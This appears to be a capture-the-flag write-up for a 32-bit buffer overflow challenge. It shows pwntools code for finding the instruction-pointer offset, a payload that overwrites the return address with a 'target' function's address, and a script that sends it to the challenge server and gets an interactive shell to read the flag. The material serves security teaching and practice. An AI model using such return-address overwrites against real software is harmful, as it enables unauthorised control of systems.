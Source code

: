 # Baby Buffer Overflow - 32bit
Can you command this program to where it cannot go?
To get the flag, you must somehow take control of its excecution.
Is it even possible?

## Solution
I could not run the pre-compiled program on my Ubuntu machine, so I re-compiled using the command in the source code. This changed the addresses, but it means that I can find the exploit.

First, I needed to determine the offset to `EIP` (instruction pointer). To do this, I generated a cyclic pattern:

```python
from pwn import cyclic

pattern = cyclic(100)
with open('pattern.bin', 'wb') as f:
    f.write(pattern)
```

Then I sent the pattern to the program using pwndbg:

```bash
gdb -q ./babybufov
(gdb) run < pattern.bin

> Program received signal SIGSEGV, Segmentation fault.
> 0x61616168 in ?? ()
```
`0x61616168` is the value of EIP, now we need to calculate the offset:

```python
from pwn import cyclic_find

eip_value = 0x61616168  # Value from EIP
offset = cyclic_find(eip_value)
print(offset)  # Output: 28
```

The offset is 28 bytes.

Now, I needed to find the address of the function "target", which is the function we need to reach:

`objdump -d babybufov | grep target`

Finally, I can craft an exploit to overwrite the return address to the one of `target`:

```python
from pwn import *

# Offset to EIP
offset = 28

# Address of the target function
target_address = 0x080491b6

# Craft the payload
payload = b'A' * offset
payload += p32(target_address)
```

This worked well on the binary that I compiled, but not on the remove server. I checked the `target` address for the original file using `objdump` again. The address was different: `0x080491f5`.

Then I make a new script with the address from the original file, and send it to the server:

```python
from pwn import *

# Set up pwntools context
context(arch='i386', os='linux', endian='little')

# Address of the target function
target_address = 0x080491f5  # As per your information

# Offset to EIP
offset_to_eip = 28  # Determined from previous analysis

# Construct the payload
payload = b'A' * offset_to_eip
payload += p32(target_address)  # Pack the address in little-endian format

# Connect to the remote server
io = remote('challenge.ctf.games', 32338)

# Receive until the prompt "Gimme some data!"
io.recvuntil(b'Gimme some data!\n')

# Send the payload
io.sendline(payload)

# Interact with the shell
io.interactive()
```

This gave me an interactive shell, which meant that I could do the following:

```bash
$ ls
babybufov
flag.txt
$ cat flag.txt
```
